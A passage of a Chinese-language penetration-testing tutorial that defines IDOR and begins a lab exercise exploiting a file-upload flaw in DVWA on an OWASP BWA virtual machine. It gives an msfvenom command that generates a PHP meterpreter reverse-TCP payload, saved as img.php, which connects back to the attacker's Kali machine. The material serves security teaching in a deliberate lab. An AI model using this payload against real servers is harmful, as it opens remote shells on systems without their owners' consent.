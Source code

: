 在接下来的部分，我们将简要讨论**不安全的直接对象引用**（**IDOR**）。

# IDOR

根据 OWASP（[www.owasp.org](http://www.owasp.org)）的说法，IDOR 发生在基于用户提供的输入提供对对象的访问权限时。如果发现 Web 应用程序存在漏洞，攻击者可以尝试绕过授权并访问受损系统上的资源。

接下来，我们将演示如何利用目标机器上的文件上传漏洞。

# 利用文件上传漏洞

在这个练习中，我们将使用我们的 OWASP BWA 虚拟机来演示文件上传漏洞。让我们开始吧：

1.  首先，在 Kali Linux（攻击者）机器上使用`msfvenom`创建有效载荷，稍后将上传到目标服务器。使用以下语法，创建一个基于 PHP 的有效载荷以建立反向连接：

```
msfvenom -p php/meterpreter/reverse_tcp lhost=<IP address of Kali Linux> lport=4444 -f raw
```

1.  复制突出显示的代码，打开文本编辑器，并将文件保存为`img.php`：

![](img/3515f8e8-4851-440d-8653-46e9b222a624.png)

1.  在 Kali Linux 中的 Web 浏览器中，输入 OWASP BWA 的 IP 地址并点击*Enter*。

1.  在主页上，单击**Damn Vulnerable Web Application**：

![](img/4c9eb84f-eccd-4a1c-bc70-04ce74a48e2c.png)
